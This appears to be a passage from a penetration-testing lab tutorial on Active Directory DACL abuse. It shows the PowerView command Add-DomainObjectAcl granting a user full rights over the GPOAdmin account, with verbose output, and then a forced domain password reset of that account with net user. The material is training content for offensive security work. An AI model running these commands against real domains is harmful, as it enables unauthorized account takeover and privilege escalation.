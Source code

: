 To edit another object's `DACL`, we can use the [Add-DomainObjectAcl](https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainObjectAcl/) function from [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1). The `PowerView` `-Rights` option supports `All`, `ResetPassword`, `WriteMembers`, and `DCSync` (notice that `PowerView` uses `All` instead of `FullControl`, but they are identical). Alternatively, we can use the option `-RightsGUID` to manually specify the extended access rights we want to apply:

# Modifying GPOAdmin's DACL

```powershell-session
PS C:\Tools> Add-DomainObjectAcl -TargetIdentity GPOAdmin -PrincipalIdentity pedro -Rights All -Verbose

VERBOSE: [Get-DomainSearcher] search base: LDAP://DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=pedro)(name=pedro)(displayname=pedro))))
VERBOSE: [Get-DomainSearcher] search base: LDAP://DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=GPOAdmin)(name=GPOAdmin)(displayname=GPOAdmin))))
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=Pedro Valt,CN=Users,DC=INLANEFREIGHT,DC=LOCAL 'All' on
CN=GPOAdmin,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=Pedro Valt,CN=Users,DC=INLANEFREIGHT,DC=LOCAL rights GUID
'00000000-0000-0000-0000-000000000000' on CN=GPOAdmin,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
```

Now we can use `net` to perform the password reset.

# Password Reset using net

```cmd
C:\Tools> net user GPOAdmin Tryanotherpassword123 /domain

The command completed successfully.
```

